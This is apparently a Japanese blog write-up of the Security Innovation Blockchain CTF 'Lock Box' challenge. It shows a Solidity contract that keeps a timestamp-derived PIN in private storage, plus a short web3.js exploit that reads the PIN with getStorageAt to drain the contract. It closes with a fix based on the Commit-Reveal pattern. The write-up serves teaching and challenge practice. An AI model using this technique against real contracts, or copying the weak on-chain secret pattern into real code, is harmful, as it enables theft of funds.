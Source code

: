 +++
title = "[Security Innovation Blockchain CTF] Lock Box"
date = "2022-06-01"
tags = [
    "security",
    "ctf",
]
+++

#### 概要

[Security Innovation Blockchain CTF](https://blockchain-ctf.securityinnovation.com/)

Security Innovationという企業が開催している、常設のCTFがあります。
今回は、[Lock Box](https://blockchain-ctf.securityinnovation.com/#/game/8)という問題を解きました。

#### 問題

問題を開くと、以下のような画面が出てきます。

ピンを入力してUnlockボタンを押すと、スマートコントラクトが保有している資産を取得できるというアプリのようです。

<img src=./dapps.png><br>

#### ソースコードを読む

constructorではアンロックするためのpinが生成されており、unlock関数で資金を送金するというコードのようです。

unlock関数はpinを受け取り、constructorで生成したpinと同一であれば、資金が送金されるようです。

```solidity
pragma solidity 0.4.24;

import "../CtfFramework.sol";

contract Lockbox1 is CtfFramework{

    uint256 private pin;

    constructor(address _ctfLauncher, address _player) public payable CtfFramework(_ctfLauncher, _player) {
        pin = now%10000;
    }

    function unlock(uint256 _pin) external ctf{
        require(pin == _pin, "Incorrect PIN");
        msg.sender.transfer(address(this).balance);
    }
}
```

#### エクスプロイト

この問題を解くには、`uint256 private pin`として格納されているpinを取得出来る必要があります。
この変数はブロックチェーン上に保存されるものなので、読み取り可能です。

web3.jsを使って書いたエクスプロイトは以下の通りです。
`getStorageAt`という関数を使ってpinを取り出しています。


```solidity
const Web3 = require('web3')
const HDWalletProvider = require("@truffle/hdwallet-provider")

require('dotenv').config()

const web3 = new Web3(new HDWalletProvider(process.env.PRIVATE_KEY, process.env.PROVIDER_URL))
web3.eth.getStorageAt("0x258e6ed1bebd27f05dc466993edd9720ceb3877a", 1).then(storage => console.log(parseInt(storage)))
```

#### どう実装されているべきか

Commit-Revealというパターンを使うことで、ブロックチェーンに機密を保存出来るようです。

- https://karl.tech/learning-solidity-part-2-voting/
- https://medium.com/layerx-jp/smart-contract-design-pattern-34a6401fe743
